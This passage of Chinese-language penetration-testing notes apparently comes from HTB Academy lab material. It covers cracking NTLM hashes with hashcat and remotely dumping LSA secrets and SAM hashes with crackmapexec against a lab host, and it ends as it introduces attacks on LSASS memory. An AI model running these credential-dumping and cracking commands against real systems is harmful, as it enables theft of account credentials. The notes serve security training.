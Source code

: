 #### 4. 使用 hashcat 破解哈希

```shell
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### 5. 扩展

```shell
# 通过访问具有本地管理员权限的凭据，我们也可以通过网络定位 LSA Secrets。 这可以让我们从正在运行的服务、计划任务或使用 LSA 秘密存储密码的应用程序中提取凭据。
# 远程转储 LSA 机密
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
# 从 SAM 数据库远程转储哈希值
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

### 2. 攻击 LSASS

> LSASS 是一项关键服务，在所有 Windows 操作系统的凭证管理和身份验证过程中发挥这核心作用

<figure><img src="../.gitbook/assets/lsass1.png" alt=""><figcaption></figcaption></figure>

在首次登陆时，LSASS 将会：

* 在内存中本地缓存凭据
* 创建[访问令牌](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* 执行安全策略
* 写入 Windows 的安全日志

#### 1. 转储 LSASS 进程内存
